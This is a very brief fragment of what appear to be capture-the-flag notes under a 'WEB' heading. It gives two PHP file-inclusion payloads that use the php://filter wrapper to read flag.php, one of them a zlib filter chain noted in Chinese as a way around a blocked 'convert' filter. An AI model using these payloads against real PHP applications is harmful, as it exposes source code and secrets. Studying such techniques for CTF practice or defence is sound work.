 # WEB
![](vx_images/247373889908089.png)
```
file=Php://filter/resource=flag.php
```

非convert:
```
Php://filter/zlib.deflate|zlib.inflate/resource=flag.php
```